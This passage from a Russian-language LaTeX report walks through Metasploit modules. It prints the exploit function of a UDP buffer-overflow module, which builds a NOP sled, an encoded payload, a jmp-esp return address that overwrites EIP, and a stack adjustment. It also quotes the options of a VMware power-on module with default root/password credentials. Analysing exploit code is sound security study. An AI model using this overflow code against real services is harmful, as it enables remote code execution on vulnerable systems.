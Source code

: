 \documentclass[10pt,a4paper]{report}
\begin{document}
После чего генерируются длинные имена (make\_nops(25 - datastore['LHOST'].length)) и отправляются по протоколу UDP (udp\_sock.put(sploit)).
\begin{verbatim}
 def exploit
    connect_udp

    sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)
    sploit << payload.encoded
    sploit << [target['Ret']].pack('V') 	# <-- eip = jmp esp. we control it.
    sploit << "\x83\xc4\x28\xc3" 		# <-- esp = add esp 0x28 + retn
    sploit << "\x00" + "netascii" + "\x00"

    udp_sock.put(sploit)

    disconnect_udp
  end
\end{verbatim}
\subsubsection{Модуль auxiliary/admin/vmware/poweron\_vm.rb}
Модуль пытается включить указанную виртуальную машину на VMWare.\\
Анализ кода.\\
Первым этапом указываются параметры модуля и регистрируются опции: RPORT = 443, USERNAME = "root", PASSWORD = "password", VM - имя виртуальной машины, которую необходимо включить.
\begin{verbatim}
require 'msf/core'

class MetasploitModule < Msf::Auxiliary

  include Msf::Exploit::Remote::HttpClient
  include Msf::Auxiliary::Report
  include Msf::Exploit::Remote::VIMSoap

  def initialize
    super(
      'Name'           => 'VMWare Power On Virtual Machine',
      'Description'    => %Q{
        This module will log into the Web API of VMWare and try to power on
        a specified Virtual Machine.
      },
      'Author'         => ['theLightCosine'],
      'License'        => MSF_LICENSE,
      'DefaultOptions' => { 'SSL' => true }
    )

    register_options(
      [
        Opt::RPORT(443),
        OptString.new('USERNAME', [ true, "The username to Authenticate with.", 'root' ]),
        OptString.new('PASSWORD', [ true, "The password to Authenticate with.", 'password' ]),
        OptString.new('VM', [true, "The VM to try to Power On"])
      ], self.class)
  end

\end{verbatim}
После модуль логинится в VMWare, пытается найти заданную виртуальную машину и включить ее. По окончанию выводится сообщение о результатах работы модуля.
\end{document}
